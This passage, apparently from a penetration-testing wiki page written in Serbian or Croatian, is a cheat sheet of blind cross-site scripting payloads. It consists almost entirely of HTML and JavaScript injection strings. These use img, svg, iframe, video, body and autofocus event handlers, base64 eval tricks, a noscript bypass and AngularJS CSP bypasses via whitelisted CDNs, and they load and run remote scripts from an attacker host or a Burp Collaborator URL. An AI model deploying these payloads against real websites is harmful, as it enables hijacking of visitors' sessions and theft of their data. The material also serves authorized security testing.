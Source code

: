 {% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

### Slepi XSS payloadi

Takođe možete koristiti: [https://xsshunter.com/](https://xsshunter.com)

```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
